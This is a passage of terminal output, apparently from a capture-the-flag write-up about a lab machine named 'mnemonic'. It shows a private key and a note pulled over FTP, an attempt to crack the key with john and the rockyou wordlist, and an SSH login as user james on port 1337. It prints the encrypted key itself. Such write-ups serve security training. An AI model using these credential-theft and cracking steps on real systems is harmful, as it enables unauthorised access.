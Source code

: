 ```bash
226 Transfer complete.
31 bytes received in 0.01 secs (5.4156 kB/s)
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1766 bytes).
226 Transfer complete.
1766 bytes received in 0.07 secs (25.2221 kB/s)
ftp> exit
221 Goodbye.
root@ip-10-10-108-227:~/backups# cat not.txt
james change ftp user password
root@ip-10-10-108-227:~/backups# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,01762A15A5B935E96A1CF34704C79AC3

pSxCqzRmFf4dcfdkVay0+fN88/GXwl3LXOS1WQrRV26wqXTE1+EaL5LrRtET8mPM
dkScGB/cHICB0cPvn3WU8ptdYCk78w9X9wHpPBa6VLk1eRi7MANLcfRWxQ4GFwXp
CP8KSSZBCduabfcx6eLBBM8fMC+P2kgtIOhnlpt/sAU2zDQa8kZHw8V76pzcBLka
...
czMMNJGJSoeA4UKNIuXFVIMbMcZD2fCKaKYWT6C0RDS0TrAf7AUurgHReAqsQhTE
xxaGq7DLLflzVHC7EY2VhdAWmbNbGQi/k7+4wC6HTRbnLMh2kTFYMbGA64hDHxFP
DYJh4ZCEDiyWe1JkmaeAAyc2n0TCVsgEzxgGPGe3tZynVML/rFWDMA0B5kZ9VLS7
j5NOaTeWFwVy55ONPzGgCICsj+izaOuCvsbdJQ7FdQ0LPNzZ/RUFvh4k7E1ZjBos
y9GNQW8WMAWH7SFK91KdX4c+fsAPnHN/v7uF/dRWlzkusrVLznURsVtG0k2BxUwx
PYn3OG7SwGS+DyiFvvV0NspX2oIXEqA6VioqQxc+0dcEGxcyNY5uDut3BENGPD+X
Ut/fe6bIfVse+ovAb6F36SBquuDjJWCHaHyVMASlmmzA6A6XhlSnrxhVP2/cmtdo
zUicXz715Li1enhR6p68AzGhBzYZsF/F9MSbrBgust0zDeNllL/4slZ9zfrg+zUY
weJKZAn1ib9/mG+PcdcPLFTcWIbXvigSx22svaiuG9WbVzU7GolkStYnrTPdDJ8M
Nw6TzknzJ6s79cg6cKPefrQVFXYXYxSZOvK/TElYrirHqBacVwIyMxCbOgoUbsF2
ipwD46fpPTKgP6qwDirNcKtULMtEud/rbqVvnP+fqm5UC+oqoX+lb1g2fvytTXSe
-----END RSA PRIVATE KEY-----
:~/backups# chmod 600 id_rsa
:~/backups# john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
No password hashes loaded (see FAQ)
root@ip-10-10-108-227:~/backups# ls
hash  id_rsa  note.txt  not.txt
:~/backups# ssh -i id_rsa james@TargetIP -p 1337
...
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.2.180]:1337' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
james@10.10.2.180's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-111-generic x86_64)
...
  => There is 1 zombie process.
...
james@mnemonic:~$ cat noteforjames.txt
noteforjames.txt

@vill

james i found a new encryption \u0130mage based name is Mnemonic  

I created the condor password. don't forget the beers on saturday
                                                                               
Broadcast message from root@mnemonic (somewhere) (Sun May 11 15:54:28 2025):   
                                                                               
     IPS/IDS SYSTEM ON !!!!                                                    
 **     *     ****  **                                                         
         * **      *  * *                                                      
```